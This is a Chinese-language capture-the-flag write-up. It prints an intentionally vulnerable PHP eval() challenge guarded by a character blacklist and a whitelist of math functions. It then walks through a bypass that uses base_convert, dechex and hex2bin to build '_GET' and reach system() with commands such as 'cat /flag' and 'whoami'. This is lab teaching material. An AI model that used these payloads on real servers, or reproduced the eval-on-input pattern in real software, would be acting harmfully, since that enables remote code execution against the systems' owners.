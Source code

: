 源码

```php
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
}
```

看了一下题意，应该是要通过这些数学函数，构造出一个恶意的请求。很明显用到的核心方法是 `base_convert`

比如这个传参

```
?c=base_convert(6968,10,30)
```

![base](base.png)

先思考攻击的 payload，最有效的无参 RCE

```php
exec(getallheaders(){1})
```

```php
base_convert(696468,10,36) => "exec"
$pi(8768397090111664438,10,30) => "getallheaders"
exec(getallheaders(){1})
//操作xx和yy，中间用逗号隔开，echo都能输出
echo xx,yy
```

还有一种思路是构造

`c=($_GET[a])($_GET[b])`

完整的payload如下：
`c=($_GET[a])($_GET[b])&a=system&b=cat /flag`

由于参数只检查c，所以a和b可以随便操作，接下来问题的关键就是，如何绕过c的检查。

白名单用来检测c中出现的变量名，因此a，b不能出现，但是可以用白名单中的值，比如abs，cos。GET中括号和和GET本身都不能出现，中括号可以用{}替代，因此这道题的核心就是构造_GET。构造如下：
`base_convert(37907361743,10,36)(dechex(1598506324))`

```php
base_convert(37907361743,10,36)=>"hex2bin"，dechex(1598506324)=>"5f474554",hex2bin("5f474554")=>_GET
```

最后的 payload

```php
/?c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));$$pi{pi}($$pi{abs})&pi=system&abs=whoami
```

![base](flag.png)